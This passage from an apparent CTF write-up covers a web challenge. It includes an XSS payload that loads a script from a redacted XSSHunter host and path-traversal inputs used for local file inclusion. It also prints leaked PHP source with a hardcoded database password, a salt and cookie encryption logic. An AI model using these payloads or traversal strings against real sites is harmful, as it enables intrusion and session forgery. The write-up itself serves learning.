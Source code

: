 Here is a simple output that triggered the XSS (the payload is from XSSHunter), it was available at https://challenge-ecw.fr/chals/web150/posts/glopglopglop/mymemo
{% highlight php%}
My super memo content!"></textarea></blockquote><script src=https://[REDACTED].xss.ht></script>
<script src=https://[REDACTED].xss.ht></script>
{% endhighlight %}
I waited hours and hours, nothing happened..

Then I try to fuzz a little bit the "name" field since we could "rewrite" the URL. I finally managed to find an LFI with the source code reflected in the dashboard inside the memo. Thanks to this we could extract all the source code of the WebApp

{% highlight php%}
../../index.php
../../include/session.php
function checkCookie()
{
  $user = null;
  if(isset($_COOKIE['web150']))
  {
    $data = explode('_', $_COOKIE['web150']);
    if(count($data) == 2)
    {

      $id = $data[0];
      $cipher = $data[1];
      $userData = findUserById($id);
      if($userData != null)
      {
        if(strcmp(decryptString($cipher, $userData['login']), $userData['login']) == 0)
        $user = $userData;
      }
    }
  }

../../include/config.php
$db_name = 'web150';
$db_login = 'web150';
$db_pass = 'Hell0Challenger!';
function generateHash($pPass)
{
  $salt = 'uH39*z_f-D48w';
  return hash('sha256', $salt . hash('sha256', $pPass));
}
{% endhighlight %}
The cookie part was interesting, it is decrypting its content with "decryptString". By looking deeper in the generation of the cookie I discovered it was based on the name of the user but the password wasn't part of it.

{% highlight php%}
function encryptString($pText){
  $key = generateKey($pText);
  $iv = mcrypt_create_iv(mcrypt_get_iv_size(MCRYPT_RIJNDAEL_256, MCRYPT_MODE_CBC), MCRYPT_RAND);
  $iv_to_pass_to_decryption = base64_encode($iv);
  return base64_encode($iv . mcrypt_encrypt(MCRYPT_RIJNDAEL_256, $key, $pText, MCRYPT_MODE_CBC, $iv));
}
{% endhighlight %}
This encrypted string was used in the cookie as follow:
